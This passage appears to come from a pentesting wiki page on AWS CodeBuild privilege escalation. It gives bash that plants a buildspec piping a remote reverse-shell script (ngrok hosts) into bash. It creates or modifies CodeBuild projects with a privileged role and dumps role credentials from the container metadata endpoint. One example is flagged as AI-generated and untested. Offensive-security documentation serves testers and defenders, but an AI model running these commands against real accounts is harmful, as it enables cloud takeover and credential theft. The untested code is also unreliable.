{% tab title="Example2" %}
{% code overflow="wrap" %}
```bash
# Generated by AI, not tested
# Create a buildspec.yml file with reverse shell command
echo 'version: 0.2
phases:
  build:
    commands:
      - curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash' > buildspec.yml

# Upload the buildspec to the bucket and give access to everyone
aws s3 cp buildspec.yml s3:<S3_BUCKET_NAME>/buildspec.yml

# Create a new CodeBuild project with the buildspec.yml file
aws codebuild create-project --name reverse-shell-project --source type=S3,location=<S3_BUCKET_NAME>/buildspec.yml --artifacts type=NO_ARTIFACTS --environment computeType=BUILD_GENERAL1_SMALL,image=aws/codebuild/standard:5.0,type=LINUX_CONTAINER --service-role <YOUR_HIGH_PRIVILEGE_ROLE_ARN> --timeout-in-minutes 60

# Start a build with the new project
aws codebuild start-build --project-name reverse-shell-project

```
{% endcode %}
{% endtab %}
{% endtabs %}

**Potential Impact:** Direct privesc to any AWS Codebuild role.

{% hint style="warning" %}
In a **Codebuild container** the file `/codebuild/output/tmp/env.sh` contains all the env vars needed to access the **metadata credentials**.

This file contains the **env variable `AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`** which contains the **URL path** to access the credentials. It will be something like this `/v2/credentials/2817702c-efcf-4485-9730-8e54303ec420`

Add that to the URL **`http://169.254.170.2/`** and you will be able to dump the role credentials.

Moreover, it also contains the **env variable `ECS_CONTAINER_METADATA_URI`** which contains the complete URL to get **metadata info about the container**.
{% endhint %}

### `iam:PassRole`, `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Just like in the previous section, if instead of creating a build project you can modify it, you can indicate the IAM Role and steal the token

```bash
REV_PATH="/tmp/codebuild_pwn.json"

# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | bash"

# You need to indicate the name of the project you want to modify
JSON="{
    \"name\": \"<codebuild-demo-project>\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
        \"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
    },
```